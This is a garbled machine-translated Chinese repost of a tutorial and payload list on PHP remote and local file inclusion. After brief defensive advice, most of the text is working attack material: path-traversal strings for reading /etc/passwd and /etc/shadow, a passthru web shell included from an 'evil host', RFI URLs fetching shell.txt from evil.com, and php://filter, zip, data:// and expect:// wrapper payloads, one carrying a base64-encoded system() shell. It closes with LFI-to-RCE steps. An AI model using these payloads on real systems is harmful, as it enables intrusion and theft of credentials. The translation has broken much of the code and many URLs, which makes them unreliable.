

# RFI/LFI:本地/远程文件包含

> 原文：<https://kalilinuxtutorials.com/rfi-lfi-local-remote-file-inclusion/>

让我们看一下 RFI/LFI 的有效载荷列表。与许多攻击一样，远程和本地文件包含只是编码结束时的一个问题。当然需要第二个人来拥有。

现在，这篇文章将有望让您了解如何保护您的网站，最重要的是保护您的代码免受文件包含漏洞的攻击。我将以 PHP 格式给出代码示例。

让我们来看看使 RFI / LFI 漏洞成为可能的一些代码。

**< a href=index.php？page = file 1 . PHP files</a>
<？PHP
$ page = $ _ GET[page]；
包含(＄page)；
？>**

显然这不应该被使用。$ page 条目没有完全清除。$页面输入直接指向该死的网页，这是一个大大的“不”。总是删除任何通过浏览器的输入。当用户在访问网页时点击“文件”访问“files.php”时，会出现类似这样的东西。

**也读作-[RSDL:用 Ping 方法扫描子域](https://kalilinuxtutorials.com/rsdl-subdomain-scan-with-ping-method/)**

**http: //localhost/index.php？page = files.php**

现在，如果没有人清除$ page 变量中的输入，我们可以让它指向我们想要的。如果托管在 unix / linux 服务器上，我们可以将密码显示为阴影或未清理变量输入的配置文件。

查看服务器上的文件是一种“本地文件包含”或 LFI 利用。这不比 RFI 漏洞更糟糕。

**http: //localhost/index.php？页面=../ ../ ../ ../ ../ ../ etc / passwd**

代码可能会返回到/ etc / passwd。现在让我们来看看这个漏洞的 RFI 方面。让我们拿一些我们以前用过的代码。

**< a href=index.php？page=file1.php >文件< /a >
<？PHP
$ page = $ _ GET[page]；
包含(＄page)；
？>**

现在假设我们写了这样的东西…

**http: //localhost/index.php？page = http: //google.com/**

大概在页面上最初放置$ page 变量的地方，我们会看到 google.com 主页。这是编码者可能受到伤害的地方。我们都知道 c99 (shell)可以做什么，如果编码人员小心的话，它们可能会被包含在页面中，允许用户在适当的时候浏览敏感文件和联系人。让我们看看在网页上发生的更简单的事情。更快更肮脏地利用 RFI 对你有利。现在，创建一个名为“test.php”的文件，将以下代码放入其中并保存。

**T4？PHP
passthru($ _ GET[cmd])；
？>**

现在，您可以利用这个文件将它包含在利用 RFI 的页面中。PHP 中的 passthru()命令很邪门，很多主机称之为“出于安全原因暂停服务”。使用 test.php 的这段代码，我们可以向网页发送请求，包括文件包含漏洞利用。

**http: //localhost/index.php？page = http://some evill host . com/test . PHP**

当代码发出$ _GET 请求时，我们必须提供一个命令传递给 passthru()。我们可以这样做。

**http: //localhost/index.php？page = http://some evil host . com/test . PHP？cmd = cat / etc / passwd**

这台 unix 机器还将使用 cat 命令提取文件/ etc / passwd。现在我们知道如何利用 RFI 漏洞，现在我们需要知道如何控制它，使任何人都无法执行命令，以及如何在您的服务器上包含远程页面。首先，我们可以禁用 passthru()。但是你的站点上的任何东西都可以再次使用它(希望不会)。但这是你唯一能做的。我建议像我之前说的那样清洁输入。现在，我们可以在函数中使用一些 PHP 建议的结构，而不仅仅是将变量直接传递给页面。最初，perl 中的 chop()被用于 PHP，它从数组中删除了空格。我们可以这样使用它。

**< a href=index.php？page=file1.php >文件< /a >
<？PHP
$ page = chop($ _ GET[page])；
包含(＄page)；
？>**

有很多函数可以清除字符串。htmlspecialchars () htmlentities()、stripslashes()等等。在困惑方面，我更喜欢用自己的函数。我们可以在 PHP 中做一个功能，可以为你清除一切，这里我为你准备了一些关于这门课程的简单快捷的东西。

**<？Php
函数 clean all($ input){
$ input = strip _ tags($ input)；
$ input = htmlspecialchars($ input)；
return(＄input)；
}
？>**

现在我希望你能看到这个函数内部发生了什么，这样你就可以添加你的了。我建议使用 str_replace()函数，还有很多其他函数可以清除它们。体谅和停止 RFI 和 LFI 剥削狂热！

**基本 LFI(空字节、双编码等招数):**

http://example.com/index.php?page=etc/passwd·http://example.com/index.php?page=etc/passwd%00·http://example.com/index.php?page=../../etc/passwd·http://example.com/index.php?page=%252e%252e%252f·http://example.com/index.php?page=….//….//etc/passwd

要查看的有趣文件:

/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/motd
/etc/MySQL/my . CNF
/proc/[0-9]*/FD/[0-9]*(第一个数字是 PID，第二个是文件描述符)
/proc/self/environ
/proc/version
/proc/cmdline

#### 基本 RFI(空字节、双编码等招数) :

**http://example.com/index.php?page=http://evil.com/shell.txt http://example.com/index.php?page = http://evil . com/shell . txt % 00 http://example.com/index.php?page = http:% 252 f % 252 fevil . com % 252 fshell . txt**

**LFI / RFI 包装:**

LFI 包装 rot13 和 base64-PHP://filter 不区分大小写。

http://example.com/index.php?page = PHP://filter/read = string . rot13/resource = index . PHP http://example.com/index.php?page = PHP://filter/convert . base64-encode/resource = index . PHP http://example.com/index.php?page = pHp://FilTer/convert . base64-encode/resource = index . pHp

可以用压缩包装器链接。http://example.com/index.php?page = PHP://filter/zlib . deflate/convert . base64-encode/resource =/etc/passwd

**LFI 包装邮编:**

echo "" payload . PHP；
zip payload . zip payload.php；【shell.jpg】mv payload . zip；
RM payload.php
http://example.com/index.php?page = zip://shell . jpg % 23 payload . PHP

**RFI 包装数据，有效负载:**

http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=

**RFI 包装期望:**

http://example.com/index.php?page=php:expect://id·http://example.com/index.php?page=php:expect://ls

**XSS 经 RFI/LFI，有效载荷:**

http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+

**LFI 到 RCE 途经/proc/*/fd :**

*   上传大量 shells(例如:100)
*   用$PID =进程的 PID(可以强制执行)和$FD 文件描述符(也可以强制执行)包含[http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD)

**LFI 到 RCE 途经上传:**

http://example.com/index.php?page=path/to/uploaded/file.png

[**Download**](https://github.com/payloadbox/rfi-lfi-payload-list)